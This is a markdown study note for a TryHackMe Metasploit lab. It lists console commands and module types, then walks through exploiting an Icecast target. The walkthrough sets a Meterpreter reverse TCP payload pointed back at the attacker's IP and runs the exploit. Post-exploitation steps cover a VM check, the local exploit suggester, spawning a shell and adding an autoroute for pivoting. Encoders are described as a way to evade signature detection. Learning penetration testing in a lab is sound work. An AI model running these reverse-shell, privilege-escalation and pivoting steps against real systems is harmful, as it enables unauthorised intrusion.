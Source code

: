# Metasploit

Pentesting framework, collection of thorougly tested exploits but also auxiliary and post-exploitation tools.

1. Initialize database, ``msfdb init``.
2. View advanced options, ``msfconsole -h``, use ``-q`` to start without banner.
3. Check if we have connnected to database, ``db_status``.

### Common Commands

* ``help`` or ``?``
* ``search <whatever>`` to search
* ``use`` to activate the module we want to leverage
* ``info`` to view information about either specific module or the active one
* ``connect`` to quick connect host to verify that we can 'talk', it's like a built in netcat-like function
* ``set`` to change value of variable, ``setg`` for global variable. ``getg``, ``get``, ``unset``, ``unsetg``.
* ``spool`` to set our console output to save to a file, it's very important to screen record and output logs when pentesting.
* ``db_save`` to store settings/active datastores from Metasploit to a settings file, it will save within msf4 directory.

## Modules

Metasploit consists of 6 core modules.

![image](https://user-images.githubusercontent.com/80155116/112130922-d7fc8680-8c2d-11eb-8ce1-9165f8374973.png)

**Post** is not included here but is used for looting and pivoting after exploitation.

**Payload** has the shellcodes.

**Encoder** is used in payload obfuscation, allowing us to modify the appearance of our exploit to avoid signature detection.

**NOP** is used with buffer overflow and ROP attacks.

We use ``load`` to load modules.

## Time to move the shell

``hosts, services, vulns`` to see currently discovered hosts, services, and vulnerabilities.

``use`` followed by string found within target exploit, ``use icecast``.

``search multi/handler`` and ``use NUMBER_NEXT_TO exploit/multi/handler``

![image](https://user-images.githubusercontent.com/80155116/112135986-455ee600-8c33-11eb-9512-d53ccfe652d9.png)

alternatively, we can use ``use NUMBER_NEXT_TO``.

Now we'll ``set PAYLOAD windows/meterpreter/reverse_tcp`` to modifiy which payloads we want to use.

``set LHOST YOUR_IP_ON_TRYHACKME``. ``ip addr`` to find IP, likely tun0.

``set RHOSTS 10.10.219.175`` to tell Metasploit which target to attack.

``use icecast`` again. Finally, ``run -j`` to run this as a job or ``exploit`` to run exploit.

We can check which job is up by ``jobs``. ``sessions`` for sessions, ``sessions -i SESSION_NUMBER`` to interact with target session.

![image](https://user-images.githubusercontent.com/80155116/112137036-a20ed080-8c34-11eb-837f-6248534e1cbe.png)

## Post

``ps`` to list the processes.

``run post/windows/gather/checkvm`` to determine if we are in a VM, will be helpful for further pivoting.

``run post/multi/recon/local_exploit_suggester`` to check various exploits we can run within session to escalate privileges.
![image](https://user-images.githubusercontent.com/80155116/112138049-e9499100-8c35-11eb-98ed-9b12b87fa970.png)

finally we can use ``shell`` to spawn a normal system shell.

``run autoroute -s 172.18.1.0/24 -n 255.255.255.0`` to add a route to the subnet 172.18.1.0/24.




